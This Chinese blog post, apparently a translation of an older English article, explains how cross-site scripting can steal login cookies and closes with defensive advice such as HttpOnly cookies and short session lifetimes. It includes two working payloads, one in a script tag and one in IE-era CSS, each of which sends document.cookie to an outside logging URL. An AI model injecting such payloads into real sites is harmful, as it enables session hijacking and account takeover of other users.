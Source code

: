 ```yaml
---
title: XSS攻击之窃取Cookie

date: 2017-08-15 10:00:00

tags: [JavaScript, 翻译]

---
```


**译者按:** 10年前的博客似乎有点老了，但是**XSS攻击**的威胁依然还在，我们不得不防。

<!-- more -->

原文: [XSS - Stealing Cookies 101](http://jehiah.cz/a/xss-stealing-cookies-101)

译者: [Fundebug](https://fundebug.com/)

**为了保证可读性，本文采用意译而非直译。另外，本文版权归原作者所有，翻译仅用于学习。**

窃取**Cookie**是非常简单的，因此不要轻易相信客户端所声明的身份。即便这个**Cookie**是在数秒之前验证过，那也未必是真的，尤其当你仅使用**Cookie**验证客户端的时候。

2006年1月，[**LiveJournal**遭到了**XSS**攻击](http://voices.washingtonpost.com/securityfix/2006/01/account_hijackings_force_livej.html)，这个事件足以警示我们。还有，2006年10月，[**MySapce**也遭到了**XSS**攻击](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))，这告诉我们必须非常谨慎地过滤用户发布的文本，因为黑客可以在文本中掺杂一些JavaScript代码，以此窃取登陆用户的**Cookie**。

正如黑客攻击**LiveJournal**那样，你不需要在登陆用户的浏览器进行任何操作，而可以在第三方进行所有操作。更糟糕的是，窃取**Cookie**事实上**操作起来非常简单**，但是**防范起来却非常困难**。

下面的的JavaScript代码就可以窃取**Cookie**，是不是很简单？

```html
<script>
new Image().src="http://jehiah.com/_sandbox/log.cgi?c="+encodeURI(document.cookie);
</script>
```

如果我可以将这段代码插入到某个登陆用户的页面，则**Cookie**就会通过HTTP请求发送给我，然后我就可以伪造那个可怜的登陆用户了！

在IE浏览器上，可以通过在CSS代码中执行JavaScript来窃取**Cookie**，也很简单。

```css
<style>
.getcookies{
    background-image:url('javascript:new Image().src="http://jehiah.com/_sandbox/log.cgi?c=" + encodeURI(document.cookie);');
}
</style>
<p class="getcookies"></p>
```

如果你对用户发布的文本内容不进行严格的过滤的话，黑客就可以很方便地窃取**Cookie**。是不是很可怕？**如果你是一个负责任的开发者的话，你就应该保持警惕！**因此，你必须假设所有用户的**Cookie**都被窃取了。注意，是**所有用户**，对于这一点，我不想含糊其辞。

为了保证安全：请不停地重设**session**的重设；将过期时间设置短一些；监控**referrer**与**userAgent**的值；使用[HttpOnly](http://www.owasp.org/index.php/HttpOnly)禁止脚本读取**Cookie**。这些措施并非万无一失，但是增加了黑客的难度，因此也是有效的。

如果你对[**MySapce**遭到的**XSS**攻击](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))不了解，可以查看黑客本人公开的[技术细节](http://samy.pl/popular/tech.html)，很有趣，不过切勿模仿，因为他为自己的行为此付出了不小的代价：**三年内被禁止使用电脑！**。

### 参考链接

- [9.3 避免XSS攻击](https://github.com/astaxie/build-web-application-with-golang/blob/master/zh/09.3.md)
- [萨米 (计算机蠕虫)](https://zh.wikipedia.org/wiki/%E8%90%A8%E7%B1%B3_(%E8%AE%A1%E7%AE%97%E6%9C%BA%E8%A0%95%E8%99%AB))
- [Technical explanation of The MySpace Worm](http://samy.pl/popular/tech.html)
- [Account Hijackings Force LiveJournal Changes](http://voices.washingtonpost.com/securityfix/2006/01/account_hijackings_force_livej.html)